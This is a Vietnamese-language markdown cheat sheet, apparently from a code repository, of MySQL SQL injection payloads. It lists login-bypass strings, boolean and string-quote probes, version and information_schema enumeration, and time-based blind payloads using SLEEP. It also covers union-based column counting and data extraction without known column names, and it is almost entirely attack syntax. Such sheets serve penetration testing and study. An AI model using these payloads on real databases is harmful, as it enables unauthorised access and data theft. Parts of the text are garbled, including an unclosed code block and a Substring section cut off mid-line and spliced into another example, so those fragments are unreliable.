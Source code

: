 # Tổng quan

- MySQL là một phần mềm mã nguồn mở, chạy trên nhiều nền tảng ( Linux, macOS, Windows, Oracle Solaris, OpenBSD và HP-UX,..)
- MySQL có thể kết hợp với mọi ngôn ngữ lập trình khác, thông thường là PHP
- MySQL không cho phép hủy query giữa chừng
- Sử dụng Enterprise Manager của Oracle

# MYSQL Testing 

**1.Login**

Query like `SELECT * FROM Users WHERE username = 'Kanye West' AND password = 'Taylor Swift'`

```sql
SELECT * FROM Users WHERE username = '' OR '1' = '1' AND password = '';
SELECT * FROM Users WHERE username = '' OR 1 -- AND password = '';
SELECT * FROM Users WHERE username = "" OR "" = "" AND password = "";
SELECT * FROM Users WHERE username = '' = '' AND password = '';
SELECT * FROM Users WHERE username LIKE '' AND password LIKE '';
SELECT * FROM Users WHERE username = 0-- AND password = '';
```

**2. Numeric**

Query like `SELECT * FROM Table WHERE id = Justin`

```sql
SELECT * FROM Table WHERE id = 123 AND 1;
SELECT * FROM Table WHERE id = 123 AND 0;
SELECT * FROM Table WHERE id = 123 AND true;
SELECT * FROM Table WHERE id = 123 AND false;
SELECT * FROM Table WHERE id = 123 AND (1-false);
SELECT * FROM Table WHERE id = 123 AND (1-true);
```

**3. Strings**

Query like `SELECT * FROM Table WHERE id = 'Kim';`

```sql
SELECT * FROM Table WHERE id = ''';
SELECT * FROM Table WHERE id = '';
SELECT * FROM Table WHERE id = '"';
SELECT * FROM Table WHERE id = '""'; -- "" trả về chuỗi rỗng

# String concatenation

```sql
CONCAT('hi','hello')
```

# Comments

```
-- comment ( có khoảng trắng sau -- )
/*comment*/
```

# Database version

```sql
SELECT @@version
```

# Database contents

```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME'
```

# Conditional errors

```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

# Substring

```sql
SUBSTRING('foobar', dụ
SELECT IF(
    (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'tên_cơ_sở_dữ_liệu' AND table_name = 'tên_bảng') > 0,
    SLEEP(10), --  10 giây nếu bảng tồn tại
    'a' -- Nếu không, trả về 'a'
) AS result;
```

# MYSQL Union Based 

**Dò số cột**

- Sử dụng `order by` hoặc `group by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

hoặc

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `UNION SELECT`

```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `SELECT * FROM SOME_EXISTING_TABLE` ( phần này hoạt động nếu tính năng hiển thị lỗi được bật )

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#Operand should contain 3 column(s)
                                        # This error means query uses 3 column
                                        #-1' UNION SELECT 1,2,3--+	True
```

- Trích xuất dữ liệu mà không cần biết tên cột

```
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
-- dbname ở đây chỉ là đặt tên cho kết quả truy 
```

